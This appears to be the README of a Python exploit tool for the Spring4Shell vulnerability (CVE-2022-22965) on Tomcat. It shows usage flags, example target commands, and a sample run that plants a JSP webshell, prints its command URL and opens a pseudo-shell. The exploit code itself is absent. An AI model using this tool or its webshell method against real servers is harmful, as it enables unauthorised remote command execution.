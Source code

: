 # spring4shell ⭐
a python implementation of CVE-2022-22965 that provides a prompt to the user in the style of an ssh session.  
the script is designed to be easy to understand and execute, with both readability and accessbility - depending on the user's choice. Designed for exploiting the vulnerability on tomcat servers. The fileDateFormat field on the server will be set and unset as part of the script which allows the exploit to be run multiple times. Cleanup may be required.

## the exploit - CVE-2022-22965 ❗
vulnerability found in
the java spring framework before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19 and running on a version of the Java Development Kit greater than or equal to 9.
More info:  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965


!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
## prerequisites ✔
requests module and BeautifulSoup module are required for the exploit to run. these can be installed with:  
`pip3 install bs4`  ## WebShell Sending시 필요
`pip3 install requests`  
all other modules are built into python3.
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!





## usage ℹ
the script only requires the url of vulnerable server to run. however there are other flags for ease of access, etc.  
output of --help:
```
usage: spring4shell_v3.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] [-a] [-n] address

spring4shell_v3.py exploits an RCE vulnerability in
applications running spring core java framework.

positional arguments:
  address               ip/hostname, port, sub-directories to the vulnerable spring core framework on tomcat

optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        name of the file to create and upload
  -p PASSWORD, --password PASSWORD
                        password to protect the uploaded shell
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file
  -a, --accessible      turns off features which may negatively affect screen readers
  -n, --no-colour       removes colour output

example:
        spring4shell_v3.py http://10.10.10.10/
        spring4shell_v3.py http://hostname:8080/ -p 'password123'
        spring4shell_v3.py http://10.10.10.10/subdir/ -a -f 'jsp-shell'

```
***
example output:
```
./spring4shell http://spring-vuln.local

                /           /  |      /         / /                                                            
 ___  ___  ___    ___  ___ (___| ___ (___  ___ ( (                                                             
|___ |   )|   )| |   )|   )    )|___ |   )|___)| |                                                             
 __/ |__/ |    | |  / |__/    /  __/ |  / |__  | |                                                             
     |                __/                                                                                      
CVE-2022-22965.
[i] attempting to change tomcat log variables.
[+] log variables set successfully.
[+] attempting to change tomcat log location variables.
[+] log successfully modified.
[i] waiting for tomcat changes.
[i] sending the webshell.
[i] resetting the log variables.
[i] shell location:
[i] http://spring-vuln.local/20df2b10c787d5ae.jsp?pwd=bd72c5e8&cmd=whoami
[i] or run commands here. type 'exit' to quit.
spring4shell:service@spring-vuln.local $ whoami
service

spring4shell:service@spring-vuln.local $
```
## limitations ⚠
it goes without saying that the script does not provide the user with a full shell, but designed as a platform for achieving a full reverse shell, privesc, etc, on the target.  
The script attempts to harvest the user/service running the vulnerable server so that it can be used as part of the pseudo command prompt in the program, though this is not always reliable.
## notes 📝
the script was mainly an exercise in python scripting for a single exploit with both readability and accessibility in mind. designed for ease of use and understandability. attempts to handle common exceptions.
## credits 👍
https://skerritt.blog/a11y/ - accessibility implementation.
